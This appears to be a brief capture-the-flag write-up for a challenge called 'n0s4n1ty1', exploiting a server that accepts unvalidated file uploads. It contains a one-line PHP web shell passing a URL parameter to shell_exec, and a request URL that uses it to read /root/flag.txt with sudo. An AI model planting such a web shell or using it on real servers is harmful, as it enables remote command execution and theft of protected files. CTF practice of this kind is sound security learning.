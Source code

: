 # n0s4n1ty1

The server doesn't validate the uploaded file.
So, I uploaded the php file.
```php
<?php
        echo shell_exec($_GET['cmd']);
?>
```

After uploading, I could execute shell commands.
```
http://standard-pizzas.picoctf.net:55528/uploads/cmd.php?cmd=sudo%20cat%20%2Froot%2Fflag.txt
```
